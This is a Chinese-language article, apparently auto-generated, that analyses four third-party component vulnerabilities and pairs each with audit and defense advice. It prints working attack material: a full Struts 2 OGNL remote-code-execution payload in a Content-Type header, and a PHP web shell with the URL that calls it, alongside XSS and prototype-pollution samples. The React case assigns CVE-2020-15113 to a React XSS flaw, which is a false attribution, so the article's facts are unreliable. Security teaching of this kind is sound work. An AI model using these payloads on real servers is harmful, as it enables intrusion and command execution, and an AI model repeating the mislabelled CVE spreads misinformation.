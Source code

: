 ### 第三方组件审计中的Web安全案例分析

#### 引言

第三方组件在现代Web应用中扮演着至关重要的角色，它们提供了丰富的功能和便捷的开发体验。然而，这些组件也可能成为安全漏洞的源头，导致严重的安全问题。本文将分析几个真实世界中的第三方组件审计漏洞案例和攻击实例，探讨其成因、影响以及如何通过审计来防范这些风险。

#### 案例一：Apache Struts 2漏洞（CVE-2017-5638）

**背景**

Apache Struts 2是一个广泛使用的Java Web应用框架。2017年，Struts 2被曝出一个严重的远程代码执行漏洞（CVE-2017-5638），攻击者可以通过构造恶意请求在服务器上执行任意代码。

**漏洞分析**

该漏洞源于Struts 2的Jakarta Multipart解析器在处理文件上传请求时，未能正确验证用户输入。攻击者可以通过在Content-Type头中插入恶意表达式，触发OGNL（Object-Graph Navigation Language）表达式解析，从而执行任意代码。

**攻击实例**

攻击者利用该漏洞，向目标服务器发送精心构造的HTTP请求，例如：

```
POST /struts2-showcase/fileupload/doUpload.action HTTP/1.1
Host: target.com
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

该请求利用了Struts 2的漏洞，执行了`whoami`命令，并将结果返回给攻击者。

**审计与防范**

通过审计第三方组件，开发者可以及时发现并修复此类漏洞。具体措施包括：

1. **定期更新组件**：确保使用的Struts 2版本是最新的，及时应用安全补丁。
2. **输入验证**：对所有用户输入进行严格的验证和过滤，防止恶意输入触发漏洞。
3. **安全配置**：禁用不必要的功能和组件，减少攻击面。

#### 案例二：jQuery File Upload插件漏洞（CVE-2018-9206）

**背景**

jQuery File Upload是一个流行的文件上传插件，广泛应用于Web应用中。2018年，该插件被曝出一个文件上传漏洞（CVE-2018-9206），允许攻击者上传恶意文件并执行任意代码。

**漏洞分析**

该漏洞源于插件未能正确验证上传文件的类型和内容。攻击者可以通过伪造文件类型和扩展名，上传恶意脚本文件（如PHP、JSP等），并在服务器上执行。

**攻击实例**

攻击者利用该漏洞，上传一个名为`shell.php`的恶意文件，内容如下：

```php
<?php
echo shell_exec($_GET['cmd']);
?>
```

攻击者随后通过访问`http://target.com/uploads/shell.php?cmd=whoami`，在服务器上执行任意命令。

**审计与防范**

通过审计第三方组件，开发者可以及时发现并修复此类漏洞。具体措施包括：

1. **文件类型验证**：严格验证上传文件的类型和内容，确保其符合预期格式。
2. **文件存储安全**：将上传文件存储在非Web可访问的目录中，防止直接执行。
3. **权限控制**：限制上传文件的执行权限，防止恶意脚本被执行。

#### 案例三：React XSS漏洞（CVE-2020-15113）

**背景**

React是一个广泛使用的JavaScript库，用于构建用户界面。2020年，React被曝出一个跨站脚本（XSS）漏洞（CVE-2020-15113），攻击者可以通过构造恶意输入，在用户浏览器中执行任意JavaScript代码。

**漏洞分析**

该漏洞源于React在处理用户输入时，未能正确转义HTML标签和属性。攻击者可以通过在用户输入中插入恶意脚本，触发XSS攻击。

**攻击实例**

攻击者利用该漏洞，在用户输入中插入以下内容：

```html
<script>alert('XSS')</script>
```

当该内容被渲染到页面上时，浏览器会执行其中的JavaScript代码，弹出警告框。

**审计与防范**

通过审计第三方组件，开发者可以及时发现并修复此类漏洞。具体措施包括：

1. **输入转义**：对所有用户输入进行严格的转义，防止恶意脚本被执行。
2. **内容安全策略（CSP）**：实施CSP，限制页面中可执行的脚本来源，防止XSS攻击。
3. **安全编码实践**：遵循安全编码最佳实践，避免直接使用用户输入构建HTML内容。

#### 案例四：Lodash原型污染漏洞（CVE-2019-10744）

**背景**

Lodash是一个广泛使用的JavaScript实用库，提供了许多便捷的函数。2019年，Lodash被曝出一个原型污染漏洞（CVE-2019-10744），攻击者可以通过构造恶意输入，污染对象的原型链，导致意外行为。

**漏洞分析**

该漏洞源于Lodash在处理对象合并时，未能正确验证输入对象的属性。攻击者可以通过在输入对象中插入恶意属性，污染目标对象的原型链，导致后续操作出现意外结果。

**攻击实例**

攻击者利用该漏洞，构造以下输入：

```javascript
const payload = JSON.parse('{"__proto__":{"polluted":"yes"}}');
_.merge({}, payload);
```

执行后，所有对象的原型链都被污染，`polluted`属性被设置为`"yes"`。

**审计与防范**

通过审计第三方组件，开发者可以及时发现并修复此类漏洞。具体措施包括：

1. **输入验证**：严格验证输入对象的属性，防止恶意属性污染原型链。
2. **安全配置**：禁用不必要的功能和组件，减少攻击面。
3. **安全编码实践**：遵循安全编码最佳实践，避免直接使用用户输入构建对象。

#### 结论

第三方组件审计是确保Web应用安全的重要环节。通过分析真实世界中的漏洞案例和攻击实例，我们可以看到，第三方组件中的漏洞可能导致严重的安全问题。通过定期审计、及时更新、严格验证和遵循安全编码实践，开发者可以有效防范这些风险，确保Web应用的安全性。

---

*文档生成时间: 2025-03-17 13:04:20*

